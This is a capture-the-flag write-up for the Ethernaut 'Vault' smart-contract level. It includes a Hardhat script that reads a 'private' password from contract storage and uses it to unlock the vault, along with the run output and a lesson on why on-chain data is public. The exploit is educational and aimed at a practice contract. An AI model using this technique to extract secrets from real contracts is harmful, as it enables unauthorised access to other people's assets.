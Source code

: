 ```yaml
---
title: "Ethernaut #08 Vault"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Vault challenge writeup
---
```


## Vault

### Challenge

Unlock the vault to pass the level!


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Background

Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it.

### Attack

Somehow access the private `password` value from the public blockchain and use it to call the `unlock` function.

* Access the private `password` value from the blockchain
* Submit the `password` using to `unlock` function to unlock the vault

#### vault-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    vaultAddress = "0x5F9f995f50C557073606266cdd86f148D72d9926";
    contract = await ethers.getContractAt("Vault", vaultAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private password value from storage
    paddedSlot = ethers.utils.hexZeroPad(1, 32);
    passwordBytes32 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    password = ethers.utils.toUtf8String(passwordBytes32)
    console.log("Password     : '" + password + "'")

    // submit password
    tx = await contract.connect(account).unlock(passwordBytes32)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/vault-solve.js --network rinkeby
Level address: 0x5F9f995f50C557073606266cdd86f148D72d9926
Vault locked : true
Password     : 'A very strong secret password :)'
Vault locked : false
```

### Success Message

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
